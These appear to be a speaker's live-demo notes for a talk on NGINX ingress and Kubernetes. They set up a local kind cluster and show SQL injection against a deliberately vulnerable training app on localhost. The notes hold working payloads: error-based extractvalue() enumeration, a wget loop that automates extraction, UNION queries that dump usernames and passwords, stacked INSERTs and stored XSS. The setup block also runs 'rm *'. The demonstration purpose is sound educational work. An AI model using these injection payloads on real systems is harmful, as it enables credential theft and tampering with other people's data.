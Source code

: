 # RESET

```
set +o history
kind delete cluster
docker pull nginx
docker pull nginx/nginx-ingress:2.1.1
docker pull ghcr.io/learnk8s/f5-microservices-march-three
helm repo remove nginx-stable
rm *
cp /Users/cns/httpdocs/talks/nginx-livedemo/cluster-config.yaml .
reset
kind create cluster --config cluster-config.yaml
kind load docker-image ghcr.io/learnk8s/f5-microservices-march-three
kind load docker-image nginx/nginx-ingress:2.1.1
kind load docker-image nginx
yq cluster-config.yaml
```

# todo:

- create deployment
- create node port service

# leak data

theres a few ways we can leak data out,

## error

we can simply corrupt the query to see if an error attack might work

```
http://localhost/product/1"a
```

ok, great news errors are surfaced we'll use `extractvalue()` its a simple way to is an easy way to generate an error and allow us to leak things, it only works with single values at a time, and will be truncated a bit, so requires enumerating through them

```
http://localhost/product/1" AND extractvalue(rand(),version())-- //
```

start enumerating through to see the databases

```
http://localhost/product/1" AND extractvalue(rand(),concat(0x3a,(SELECT concat(0x3a,schema_name) FROM information_schema.schemata LIMIT 0,1)))-- //
http://localhost/product/1" AND extractvalue(rand(),concat(0x3a,(SELECT concat(0x3a,schema_name) FROM information_schema.schemata LIMIT 1,1)))-- //
```

ok, so now we know the database name we is sqltraining, so we can use the same tactic to get the tables in that database

```
http://localhost/product/1" AND extractvalue(rand(),concat(0x3a,(SELECT concat(0x3a,TABLE_NAME) FROM information_schema.TABLES WHERE table_schema="sqlitraining" LIMIT 0,1)))-- //
```

interesting a users table!

```
http://localhost/product/1" AND extractvalue(rand(),concat(0x3a,(SELECT concat(0x3a,TABLE_NAME) FROM information_schema.TABLES WHERE table_schema="sqlitraining" LIMIT 1,1)))-- //
```

Now all this enumeration might feel quite laborious, but what if instead use a simple script to do that instead

```bash
for i in {0..20}; do
  wget -q -O - "http://localhost/product/1\" AND extractvalue(rand(),concat(0x3a,(SELECT COLUMN_NAME FROM information_schema.columns WHERE TABLE_NAME=\"products\" AND table_schema=\"sqlitraining\" LIMIT ${i},1)))-- //" | grep mysqli_sql_exception | cut -d" " -f9
done
```
it shouldn't take much imagination to figure out how you could automate stealing all rows

# union leak
we don't know how many columns were in the original query so we have to brute force queries to satisfy the original query
```
http://localhost/product/-1" UNION SELECT username FROM users where id=1 -- //
http://localhost/product/-1" UNION SELECT username, password FROM users where id=1 -- //
http://localhost/product/-1" UNION SELECT username, password, username FROM users where id=1 -- //

http://localhost/product/-1" UNION SELECT username,username,password,password,username FROM users where id=1 -- //
```
###


## inserting
```
http://localhost/product/1"; INSERT INTO products(product_name, product_type, description, price) VALUES("hack", "hack", "hack", 1); -- //
```
## inserting with xss
```
http://localhost/product/1"; INSERT INTO products(product_name, product_type, description, price) VALUES("<script>alert('hi')</script>", "hack", "hack", 1); -- //
http://localhost/product/1"; INSERT INTO products(description, product_name, product_type, price) VALUES("<iframe width=560 height=315 src='https://www.youtube-nocookie.com/embed/dQw4w9WgXcQ'></iframe>", "never gonna", "give you up", 1); -- //

```

Similarly you can probably imagine anything else we can do like truncate tables, add users, dump lots of data into a table

http://localhost/product/<iframe width='560' height='315' src='https://www.youtube-nocookie.com/embed/dQw4w9WgXcQ'></iframe>

<iframe sandbox="allow-forms allow-modals allow-popups allow-pointer-lock allow-same-origin allow-scripts" allowfullscreen="true" src="https://www.youtube-nocookie.com/embed/9Auq9mYxFEE?autoplay=1&amp;mute=1&amp;cc=1"></iframe>
# ingress
```bash
helm repo add nginx-stable https://helm.nginx.com/stable

helm install main nginx-stable/nginx-ingress \
 --set controller.enableSnippets=true \
 --set controller.image.pullPolicy=Never \
 --set controller.service.type=NodePort \
 --set controller.service.httpPort.nodePort=30000
```